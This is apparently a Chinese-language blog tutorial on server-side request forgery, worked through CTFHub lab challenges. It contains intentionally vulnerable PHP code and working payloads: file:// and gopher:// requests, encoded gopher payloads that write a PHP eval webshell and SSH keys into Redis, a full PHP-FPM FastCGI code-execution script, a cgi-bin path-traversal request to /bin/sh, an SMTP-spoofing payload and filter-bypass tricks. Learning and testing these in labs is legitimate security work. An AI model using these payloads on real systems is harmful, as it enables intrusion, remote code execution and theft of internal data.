

# SSRF(服务器端请求伪造)原理

假如存在三台主机,A,B,C

A是可以访问到B的,B是可以访问C的,但是A并不能访问到C,这个时候通过外网访问到B,在进行伪造,访问到内部系统C的资源

网上原理的解释:

很多web应用都提供了从其他的服务器上获取数据的功能。使用指定的URL，web应用便可以获取图片，下载文件，读取文件内容等。SSRF的实质是利用存在缺陷的web应用作为代理攻击远程和本地的服务器。一般情况下， SSRF攻击的目标是外网无法访问的内部系统，黑客可以利用SSRF漏洞获取内部系统的一些信息（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）。SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。

SSRF的攻击方式:


# 产生SSRF的几个函数

```
file_get_contents()
fsockopen()
curl()
```

## file_get_contents()

`file_get_contents()`函数的作用是将文件写入一个字符串,其实就是读文件,当目标是内网文件的时候,他会将文件读出来再写入,这样就导致了文件读取

示例代码:

```
<?php
show_source(__FILE__);
if(isset($_POST['url']))
{
    $content=file_get_contents($_POST['url']);
    $filename='./images/'.rand().'.img';\
    file_put_contents($filename,$content);
    echo $_POST['url'];
    $img="";
    
}
echo $img;
?>
```

## fsockopen()

`fsockopen()`函数本身就是打开一个网络连接或者Unix套接字连接。

使用这个函数可以实现获取用户指定的URL中的数据,这个函数会使用socket与服务器建立TCP连接,传输原始数据

示例代码

```
<?php
show_source(__FILE__);
$host=$_GET['url'];
$fp = fsockopen("$host", 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?>
```

## curl()

这个函数应该是出现得最多的,往往会利用到一些伪协议file,dict,gopher

在linux下一定要安装curl才行

示例代码:

```
<?php
show_source(__FILE__);
$url = $_GET['url'];
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

curl($url); 
```

## 效果演示：

kali(192.168.121.129),win7(192.168.121.130),win10(192.168.121.133)

通过win7搭建的ssrf漏洞去访问kali,其实这里的网段是有一点问题的,我应该把win7的内网和外网分开,但是只是为了演示通过一台服务器去访问另一台的效果,使用我就没有分开

正常情况下,win7的内网应该是可以访问kali的,然后win10可以访问win7的外网,而不能访问到kali

这里我用的是curl函数进行演示


这里返回了我kali的index界面,看到是一样的


也可以访问kali下的phpinfo.php


# 伪协议

刚刚说过,大多数协议是搭配curl来使用的,我们先看看curl支持哪些协议


```
支持的协议有:dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtmp rtsp scp sftp smb smbs smtp smtps telnet tftp
```

经常会用到的协议大概有:

```
file:///  -- 本地文件传输协议，主要用于访问本地计算机中的文件
dict://   -- 字典服务器协议，dict是基于查询相应的TCP协议，服务器监听端口2628
sftp://   -- SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol）
ldap://   -- 轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议
tftp://   -- 基于lockstep机制的文件传输协议，允许客户端从远程主机获取文件或将文件上传至远程主机
gopher:// -- 互联网上使用的分布型的文件搜集获取网络协议，出现在http协议之前
```

## file://

本地文件传输协议，主要用于访问本地计算机中的文件。

因为ssrf.php的漏洞代码有回显，所以浏览器直接访问：

```
?url=file://文件路径
```

CTFHUB的那个伪协议读文件就采用的file伪协议

payload:

```
?url=file:///var/www/html/flag.php
```

只是最后flag要f12查看,或者直接抓包就能看到

## dict://

字典服务器协议。dict是基于查询相应的TCP协议。服务器监听端口2628。漏洞代码没有屏蔽回显的情况下，可以利用dict协议获取ssh等服务版本信息。

dict协议可以用来进行端口扫描,开探测端口开放信息,如果有回显,还会显示端口的banner信息

就用ctfhub的ssrf的端口扫描来作为例子


他说端口开放在8000-9000,那就用burpsuite来爆破一下


8870端口长度不一样,访问一下


拿到了flag

如果在源码中加上一个屏蔽回显的代码`curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);`那就只能用反弹shell的方式了

## gopher://

这个协议出现得很早,但是在www出现后,gopher就江河日下,不过在SSRF中又重拾昔日辉煌

这个协议是SSRF中最强大的协议

```
// gopher协议
在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。但在WWW出现后，Gopher失去了昔日的辉煌

// gopher协议特点：
gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，在构成符合gopher协议的请求（换行使用%0d%0a，空白行%0a,问号用%3f）

// gopher协议的格式：
gopher://<host>:<port>/<gopher-path>_后接TCP数据流 

// gopher协议在curl命令中的使用方式：
curl gopher://localhost:2222/hello%0agopher
```

需注意，通过gopher协议进行请求时，要将http包进行URL编码

> 1、问号（?）需要转码为URL编码，也就是%3f
>
> 2、回车换行要变为%0d%0a
>
> 3、在HTTP包的最后要加%0d%0a，代表消息结束

而且因为gopher协议的默认端口是70,在对http请求的时候需要加上其端口号80,https则为443

gopher协议在各个编程语言中的使用限制:

| 协议    | 支持情况                               |
| ------- | -------------------------------------- |
| PHP     | –wite-curlwrappers 且 php版本至少为5.3 |
| Java    | 小于JDK1.7                             |
| Curl    | 低版本不支持                           |
| Perl    | 支持                                   |
| ASP.NET | 小于版本3                              |

需要注意的是,gopher协议会吃掉第一个字符,所以在传输数据之前需要加一个无效字符,我个人推荐加下划线

例题,ctfhub的ssrf中的post请求

进去后和之前的并无什么差别，看看127.0.0.1/flag.php有没有


给了一个key值,用file://伪协议读一下这个文件

```
?url=file:///var/www/html/flag.php
```

看到了flag.php的源代码


这里要求post传值一个key等于刚才那串key值,并且是从127.0.0.1发出的请求包

那就把host改为127.0.0.1,post传值刚才的key值

这道题,你如果熟悉ssrf你看到这个post请求就会想到gopher伪协议的

我们可以读一下index.php


用的函数是curl(),curl是支持gopher协议的,这正好印证了我们的观点

所以我们可以用gopher协议发送一个post请求

gopher协议必须的post请求包数据有

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=ff05a2a4efd36f52c86e61bac839ca9e
```

由于PHP默认解码`$ _GET`和`$ _REQUEST`数据，必须要对http包进行二次URL编码,不然在执行gopher请求的时候,已经解码了的空格会不满足gopher协议的格式造成截断,请求不会成功

这里编码的时候最好用php编辑器里面的urlencode函数进行url编码

所以payload:

```
?url=gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:127.0.0.1%250d%250AContent-Type:application/x-www-form-urlencoded%250d%250AContent-Length:36%250d%250A%250d%250Akey=ff05a2a4efd36f52c86e61bac839ca9eb%250d%250a
```


也可以在kali当中执行命令

```
curl -vvv "http://challenge-525c52eddbe59a8a.sandbox.ctfhub.com:10800/?url=gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:127.0.0.1%250d%250AContent-Type:application/x-www-form-urlencoded%250d%250AContent-Length:36%250d%250A%250d%250Akey=ff05a2a4efd36f52c86e61bac839ca9eb%250d%250a"
```

在ssrf中一般用到的就是以上三个协议

脚本

```
# -*- coding: utf-8 -*-
import urllib
import requests
test =\
"""POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 172.18.0.3:80
Content-Length: 26
Content-Type: application/x-www-form-urlencoded

echo;cat /flag_y0u_f1nd_1t
"""
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = "gopher://172.18.0.3:80/"+'_'+new
result = urllib.parse.quote(result)
print(result)
```

# 利用SSRF攻击Redis

Redis未授权访问漏洞一般就是3种攻击形式

```
1. 直接利用Redis服务写入webshell
2. 利用crontab计划反弹shell
3. 写入ssh公钥然后使用密钥免密登陆
```

其实利用ssrf攻击Redis和Redis的未授权访问漏洞无异

只是在ssrf中会搭配gopher协议使用从而构造出合适的payload,模拟Redis通信

```
http://10.1.8.159/ssrf.php?url=gother://127.0.0.1:6379/_payload
```

当然urlencode必不可少

这里我就只用ssh密钥攻击为例子了

正常是在redis客户端和服务端连接通信时，payload如下：

```
set  margin  "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPXsD2dKIK4u8NVt0n702dmwjMzM0TOFbuIGVqBO/CXUJs6a3X00Hn1MQgd4v/au1+2MsQUhWwmVjAYrZfo/hyzMLjjdbb8F5NQ/MuX+XCQPXr0OIMOIQ8uOJQEDvow/FF8YLlbp6u9iQlyRMSCQE3dDbfkt5TWPXGiQxIqTO8gTCSO/clat6zsnlJ9Gab14tlGpv78rlQ8lKCLrmLojknO+64ikwIXNB/iB4R0SYthRm9GLV07kK2ZM2QBjmO1YQxdfBelNIcgQLQqG0iCPX5nf4BdPEVwGnJJHpAo32DaTbPs5q9ABitImNR5d2sd6RhAsle63IixDVn1oIKiOClXWkeyRZViBE87hddRynKs23pW+ENDojXK/4A3j4V8rqsfRVearpIoAEK+hbm7UDT6y9Sf533cH/xfdY01u0YOAnnDvMNt8QYgsJE4PWbnxl35ogEk0VLbBnogvvnH+rWmkSAyxXQvMiLMiEAqGkhEIOHTsTSps/tQjMmbd3RhnM= root@luodameinv\n\n\n"
config set dir /root/.ssh/
config set dbfilename "authorized_keys"
save

用私钥登陆:
ssh -i id_rsa root@ip
```

最后拿gopher打的时候还是要进行两次url编码

例题分析(ctfhub的ssrf的Redis协议):

看提示


于是用dict://扫描一下6379端口发现是开启的


可以试试直接用redis写webshell

```
flushall
set 1 '<?php eval($_GET["cmd"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```

将其转化为gopher脚本的形式

```
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252431%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_GET%255B%2522cmd%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

虽然返回了504,但是shell.php已经成功写入了


访问一下,发现可以命令执行了


# 攻击fastcgi

fastcgi其实也是一个通信协议,类似于http,都是一个数据交换的通道

具体可以看看p牛的博客:https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

其实这是PHP-FPM未授权访问漏洞

fastcgi默认监听端口为本机的9000端口，如果对外开放的话就有可能造成任意代码执行，但是一般情况不会对外开放的，所以此时需要配合gopher+ssrf加以利用。

利用条件

```
libcurl版本>=7.45.0 (exp中存在%00，curl版本小于7.45.0，gopher的%00会被截断) 
PHP-FPM监听端口 
PHP-FPM版本 >= 5.3.3 
知道服务器上任意一个php文件的绝对路径
```

例题(ctfhub的fastcgi)

这种可以利用工具gopherus



不过我拿gopherus没打通


拿exp打

不用修改P牛的脚本，在本机上直接将流量打到某一个端口（比如9999），同时监听此端口，再保存到本地后进行url编码（此时要求本机上也有php-fpm服务）

```
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])


def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)


def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')


def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
              + bchr(fcgi_type) \
              + bchr((requestid >> 8) & 0xFF) \
              + bchr(requestid & 0xFF) \
              + bchr((length >> 8) & 0xFF) \
              + bchr(length & 0xFF) \
              + bchr(0) \
              + bchr(0) \
              + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''

            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)

        self.sock.send(request)
        self.requests[requestId]['state'] = FastCGIClient.FCGI_STATE_SEND
        self.requests[requestId]['response'] = b''
        return self.__waitForResponse(requestId)

    def __waitForResponse(self, requestId):
        data = b''
        while True:
            buf = self.sock.recv(512)
            if not len(buf):
                break
            data += buf

        data = BytesIO(data)
        while True:
            response = self.__decodeFastCGIRecord(data)
            if not response:
                break
            if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                    or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                if requestId == int(response['requestId']):
                    self.requests[requestId]['response'] += response['content']
            if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                self.requests[requestId]
        return self.requests[requestId]['response']

    def __repr__(self):
        return "fastcgi connect host:{} port:{}".format(self.host, self.port)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
    parser.add_argument('host', help='Target host, such as 127.0.0.1')
    parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
    parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php phpinfo(); exit; ?>')
    parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

    args = parser.parse_args()

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

具体参照:https://blog.csdn.net/rfrder/article/details/108589988

用wp的poc打


不知道为什么我用gopherus没打通

# SSRF的bypass

## 添加对应端口

一般的过滤是基于正则表达式的,匹配网址的时候是都是匹配0.0.0.0这种格式,不会匹配冒号,所以加上对应端口号即可绕过127.0.0.1:80

## 利用@跳转

http://www.baidu.com@127.0.0.1

可以直接跳到127.0.0.1页面

但是https://www.baidu.com@127.0.0.1却不能跳到127.0.0.1界面

原因是百度是https协议,如果换成http://www.baidu.com@127.0.0.1即可

## 短网址生成

https://sina,lt

不过不巧,新浪这两个崩了,随便在网上搜了一个短网址生成工具

比如我要访问https://www.baidu,com


转化出来的短网址是这个

http://nffo0.cn/ETsmg

访问一下还是跳到了百度的界面


## 利用特殊域名xip.io

还是因为过滤一般是基于正则表达式的

而0.0.0.0.xip.io会解析到0.0.0.0从而实现绕过

不过现在不知道还可不可以用了,我的127.0.0.1.xip.io是解析不出来的

## 利用DNS解析


设置域名的DNS解析的A记录为127.0.0.1

访问域名即可跳转到127.0.0.1

因为我嫌麻烦,直接用的网上别人的域名,已经解析到了127.0.0.1

http://ssrf.w2n1ck.com

访问一下跳转到了127.0.0.1


## 进制转化

进制转换是绕过很多漏洞常用的方法

首先是8进制

```
127  ==> 177
0 ==> 0
1 ==> 1
8进制使用的时候前面要加0(可以是一个0也可以是多个0 跟XSS中多加几个0来绕过过滤一样)
所以访问http://0177.0.0.1
或者http://0177.00.00.01
```


还是127.0.0.1页面

利用16进制

```
127 ==> 7f
0 ==> 0
1 ==> 1
16进制使用的时候要加0x
```


除此之外

127.0.0.1的二进制表示为01111111,00000000,00000000,00000001

01111111000000000000000000000001转化为10进制为2130706433


访问一下


还是可以

## 利用协议

```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/

SFTP://
ssrf.php?url=sftp://example.com:11111/

TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET

LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit

Gopher://
ssrf.php?url=gopher://127.0.0.1:25/_HELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

参考链接:

https://xz.aliyun.com/t/6993

https://blog.csdn.net/weixin_39664643/article/details/109819853

https://blog.csdn.net/rfrder/article/details/108589988

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

https://www.secpulse.com/archives/65832.html

总的来说没想到ssrf涉及到的东西这么多,感觉这都是一点皮毛,对ssrf的协议掌握还是需要提高,可以去先知看看有关ssrf的文章,里面有那种gopher协议在ssrf的深入应用,还有深入讲解redis协议在ssrf中的应用的文章,写的很不错

